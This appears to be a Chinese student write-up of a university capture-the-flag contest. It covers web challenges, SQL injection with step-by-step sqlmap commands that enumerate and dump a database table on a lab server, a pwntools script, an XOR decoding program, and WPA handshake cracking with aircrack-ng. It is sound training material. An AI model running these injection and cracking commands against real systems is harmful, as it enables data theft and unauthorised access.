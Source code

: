 # ZJU SchoolBus Writeup

## Web

### EasyWeb

#### 第一关（.bak）

查看.bak文件

http://10.214.160.13:10000/1.php.bak

```html
<html>
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
  <meta http-equiv="Content-Language" content="zh-CN" />
</head>
<body>
<div align="center">
<h1>欢迎来到第一关</h1>
</div>
<!-- 删除1.php.bak -->
<a href="the2nd.php">进入第二关</a>
</body>
</html>
```

#### 第二关（XSS）

跨脚本漏洞XSS

相关阅读[https://tech.meituan.com/2018/09/27/fe-security.html]

目前使用chrome破解失败了

好像firefox直接禁掉弹窗可以绕过去

#### 第三关（消息头）

网络$\to$ disiguan.php$\to$ Headers$\to$ Response Headers(wozaizheli.php)

#### 第四关

删掉选中行的display得到flag

![image-20211004085706027](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211004085706027.png)



### SQLinjection

在后台数据库中找一个名叫flag_is_here的表里的flag

#### SQLMAP的使用

(基本操作)[https://www.jianshu.com/p/63becdb8c2f8]

思路：获取数据库名称，得知所需要的表名，获取列名，获取指定列名字段

```shell
#判断url的数据库是否存在注入点
python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0
```

![image-20211003212834051](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003212834051.png)

```shell
#枚举DBMS所有数据库
python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 --dbs
```

![image-20211003212932141](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003212932141.png)

```shell
#枚举数据库中所有的数据表
python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 --tables
```

![image-20211003220358984](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220358984.png)

```shell
#枚举数据库中指定数据表中的所有字段
python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 -T flag_is_here --column
```

![image-20211003220016540](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220016540.png)

```shell
#导出数据表中的列字段进行保存
sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 -T flag_is_here -C "flag" --dump
```

![image-20211003220044730](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220044730.png)

## PPC

### calculator

(基本操作)[https://ce2191210307.gitee.io/2020/06/03/pwntools%E4%BD%BF%E7%94%A8%E4%BB%A5%E5%8F%8Apwn%E5%85%A5%E9%97%A8/]

#### Description

编程是最重要的技能，没有之一 
我就不信你的手速足够快hhh 
nc 10.214.160.13 11002 
nc是Linux自带的工具，用于与服务器建立socket连接

#### Solution

[入门链接]: https://ce2191210307.gitee.io/2020/06/03/pwntools%E4%BD%BF%E7%94%A8%E4%BB%A5%E5%8F%8Apwn%E5%85%A5%E9%97%A8/

注意bytes类和string类的区别与相互转换

```python
from pwn import *
p=remote('10.214.160.13',11002)
p.recvlines(7)
for i in range(10):
    s=p.recvuntil('=')
    s=bytes.decode(s)
    if i == 0:
        s=s[:-2]
    else:
        s=s[15:-2]
    sum=eval(s) 
    print(s)
    print(sum)
    sum = str.encode(str(sum))
    p.sendline(sum)
s=p.recvlines(4)
print(s)
```

### WUD1T1

大概就是根据题面给出的信息确定身份证的某几位，其他的暴力枚举

#### md5加密

```python
import hashlib
def get_md5(s):
	md = hashlib.md5()
	md.update(s.encode('utf-8'))
	return md.hexdigest()
```

## Reverse

### Reverse1

一道简单的逆向题

flag加密存于内存区内，与Ch异或后取出值

```cpp
#include<stdio.h>
#include<string>
#include<iostream>
using namespace std;
void int2str(const int &int_temp,string &string_temp)  
{  
    char s;    
    s = (char)int_temp; 
    string_temp=s;  
}  
int main(){
    int x;
    string s="";
    while(1){
        scanf("%x",&x);
        x^=12;
        printf("%d %c\n",x, (char)x);
        string c;
        int2str(x,c);
        s+=c;
        cout<<s<<endl;
    }
} 
```

![image-20210929194118523](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20210929194118523.png)



## MISC

### WUD1T2

#### aircrack-ng撞库

题目已给出握手包，直接用现有的字典库破解就行

```shell
aircrack-ng -w password.txt crack_zju-01.cap #password.txt为字典库
```

#### vim .swp文件复原

```shell
vim -r 复原文件名（不带.swp）
```

